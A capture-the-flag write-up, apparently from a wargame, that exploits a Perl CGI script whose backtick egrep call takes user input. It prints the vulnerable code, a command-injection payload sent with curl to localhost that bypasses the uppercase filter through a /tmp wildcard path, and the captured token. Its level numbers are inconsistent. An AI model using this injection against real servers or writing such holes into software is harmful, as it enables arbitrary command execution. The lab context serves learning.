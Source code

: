 # level08 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level12.pl
```

As level04, it's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level12.pl  
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

With that we can see 4 important elements :

```
- localhost:4646 -> url, so we can try to call the website with curl

- n(t(param("x"), param("y"))); -> parameters who can contain a value

- $xx = $_[0];			|	  First parameter (x) will be transform
  $xx =~ tr/a-z/A-Z/;	| ->  to uppercase and 
  $xx =~ s/\s.*//;		|	  remove spaces

- @output = `egrep "^$xx" /tmp/xd 2>&1`; -> will be breakable with a code injection cause of ` character
```

According to elements, we should make an injection using an uppercase file (reading right) who write ```getflag``` return value on another file

```
$ echo "getflag > /tmp/flag" > /tmp/GET
$ chmod 777 /tmp/GET
```

Ok let's do this

```
$ curl 127.0.0.1:4646?x='`/*/GET`'
> ..
$ cat /tmp/flag
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level11">previous level</a> - <a href="../../level13">next level</a>
